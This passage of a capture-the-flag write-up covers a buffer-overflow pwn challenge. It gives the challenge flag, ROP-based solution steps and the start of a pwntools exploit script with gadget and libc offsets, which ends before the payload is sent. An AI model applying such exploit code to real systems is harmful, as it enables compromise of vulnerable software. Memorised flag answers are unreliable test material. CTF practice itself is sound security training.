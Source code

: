 ### Description

Quiz.

### Solution

Answer the questions by googling.

### can-you-jump - Pwn

### Flag

`CTF{70dd83585c9e2656c8a391b7dbc1f28e8d40a98067fdb56adfb69b8e509481df}`

### Description

Very trivial introductory Buffer Overflow with an already existing leak for printf. Just ROP to `pop rdi` and `system("/bin/sh");`

### Solution

Find the crash address with pwntools `cyclic`. `ropper -f can-you-jump | grep pop` to find pop rop gadgets. Exploit.

### Exploit

```py
from pwn import *
from binascii import unhexlify
context.terminal = ["tmux", "splitw", "-h"]

REMOTE = True
DEBUGGING = True

if REMOTE:
    p = remote('34.141.31.183', 32584)
else:
    if DEBUGGING:
        p = gdb.debug(["./can-you-jump"])
    else:
        p = process(["./can-you-jump"])


p.recvuntil(b"Printf() address : ")
addr = int(p.recvuntil("\n").strip()[2:].decode('utf-8'), 16)

print(hex(addr))

printf_offset = 0x64f70
one_gadget = 0x4f432
system = 0x4f550

# pop rdi
pop_rdi = 0x400773

# pop rsi, pop sth
pop_rsi = 0x400771

# ret gadget
ret_gadget = 0x400291

# bin/sh
binsh = 0x1b3e1a

```